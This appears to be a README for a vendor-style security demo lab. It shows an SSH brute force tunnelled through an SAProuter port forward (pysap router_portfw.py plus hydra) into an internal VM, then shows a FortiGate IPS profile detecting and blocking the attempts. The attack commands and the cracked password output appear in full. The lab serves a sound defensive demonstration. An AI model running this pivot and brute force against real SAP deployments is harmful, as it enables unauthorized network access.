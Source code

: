 # How-to: Demo Environment

In this documentation you will find a guideline how the demo can be done.

### Communication diagram

```text
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |--------------->|                |                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |----------------------------------->|          
          |                |                |                   |          
          |                |           SSH connection           |          
          |                |<-----------------------------------|          
          |                |                |                   |          
          |                | SSH connection |                   |          
          |                |--------------->|                   |          
          |                |                |                   |          
          |                |     SAP NI     |                   |          
          |                |<---------------|                   |          
          |                |                |                   |          
          |     SAP NI     |                |                   |          
          |<---------------|                |                   |          
.-------------------..------------..-----------------..-------------------.
|attacker-vm(public)||fortigate-vm||saprouter-vm(dmz)||target-vm(internal)|
'-------------------''------------''-----------------''-------------------'

```



## Deplyoment

Deploy the Lab Enviroment in Azure.

```bash
$ terraform init
...[snip]...
$ terraform apply --var-file variables.tfvars -auto-approve
...[snip]...
Outputs:

FGT-Username = "fgt-admin-user"
OS-Username = "saprouter-demo-admin"
Password = "<REDACTED>"
private_ip_attacker = "10.0.1.5"
private_ip_saprouter = "10.0.2.4"
private_ip_target = "10.0.3.4"
public_ip_attacker = "40.70.40.198"
public_ip_fortigate = "13.68.17.252"
```



## Connect to the Demo Environment

* Connect via SSH to the `attacker-vm`

```bash
$ ssh -i ssh_key.pem saprouter-demo-admin@40.70.40.198
...[snip]...
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
saprouter-demo-admin@vm-attacker:~$
```



* check that SAProuter System is running by doing a test connect via netcat against Port 3299 on the `saprouter-vm`

```bash
$ nc 10.0.2.4 3299
bla
NI_RTERR(�����*ERR*1Network packet too big-93NI (network interface)75340/bas/753_REL/src/base/ni/nibuf.cpp2961NiBufIIn: message length 1651269898 exceeds max (10024)Mon Apr 26 07:29:22 20213SAProuter 40.4 on 'vm-saprouter'*ERR*
```

The Output should show a similar Error Message from the SAProuter application.

## Run the Demo

### BruteForce SSH through SAProuter

* start the SAProuter portforwarding for SSH to our Target

```bash
$ cd /opt/pysap/examples

$ python2 router_portfw.py -d 10.0.2.4 -p 3299 -t 10.0.3.4 -r 22 -a 127.0.0.1 -l 2222 --talk-mode raw
[*] Setting a proxy between 127.0.0.1:2222 and remote SAP Router 10.0.2.4:3299 (talk mode raw)
```

* validate that we are now listening in port `2222` on `localhost`

```bash
$ ss -tlnp
State       Recv-Q      Send-Q           Local Address:Port           Peer Address:Port     Process
LISTEN      0           4096             127.0.0.53%lo:53                  0.0.0.0:*
LISTEN      0           128                    0.0.0.0:22                  0.0.0.0:*
LISTEN      0           5                    127.0.0.1:2222                0.0.0.0:*         users:(("python2",pid=7808,fd=3))
LISTEN      0           128                       [::]:22                     [::]:*
```

* Do an brute-force against our `target-vm` through the `saprouted-vm`. (This can take about 3-5 min.)

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
...[snip]...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16983 login tries (l:17/p:999), ~1062 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
...[snip]...
[2222][ssh] host: 127.0.0.1   login: azureuser   password: Sojdlg123aljg
1 of 1 target successfully completed, 1 valid password found
```

### Show attack on FortiGate

* open URL of FortiGate admin panel `https://<IP>`

  ![image-20210428082021361](image-20210428082021361.png)

* Switch to `Log&Report - Forward Traffic` to view the attack traffic

  ![image-20210428083142185](image-20210428083142185.png)
  
  You will see, that FortiGate has detected `SAP.Router` traffic going into `saprouter-vm`but `SSH`traffic is coming out and going to our internal server.

### Prevent Attack

* Enable IPS policy which prevents SSH Bruteforce. Select the IPS profile `block_SSH_bruteforce`

  ![image-20210428084722530](image-20210428084722530.png)

* redo the SSH brute force attack to show, that our IPS will block the SSH attempts after some tries. This time it will never be successfull because IPS is blocking the attempts. So you can abort the attack after about 3 min.

```bash
$ hydra -l azureuser -P /opt/wordlists/passwords.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-28 06:48:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 999 login tries (l:1/p:999), ~63 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 145.00 tries/min, 145 tries in 00:01h, 855 to do in 00:06h, 16 active
```



* Show the attack in the IPS log

  ![image-20210428084938213](image-20210428084938213.png)

